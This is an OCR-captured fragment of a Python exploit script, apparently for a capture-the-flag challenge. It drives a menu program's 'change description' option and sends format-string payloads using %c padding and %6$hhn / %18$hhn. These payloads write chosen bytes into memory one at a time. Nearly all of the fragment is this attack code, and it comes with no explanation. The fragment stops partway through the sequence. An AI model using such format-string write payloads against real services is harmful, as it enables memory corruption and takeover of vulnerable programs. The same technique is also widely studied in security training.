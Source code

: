 ```python
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start+3) + 'c%6$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str((x >> 24) & 0xff)+'c%18$hhn')
    readtil('>>> ')
    sendln('4')
    readtil('>>> ')
#-----------

    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(start) + 'c%6$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')
    
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
    sendln('%'+str(x & 0xff)+'c%18$hhn')
    #readtil('>>> ')
    sendln('4')
    readtil('>>> ')

# start writing bytes       
#---write first byte
    sendln('3')
    readtil('change? ')
    sendln('BAR4')
    readtil('>>> ')
    sendln('2')
    readtil('iption:')
    sendln('1000')
    readtil('iption:')
```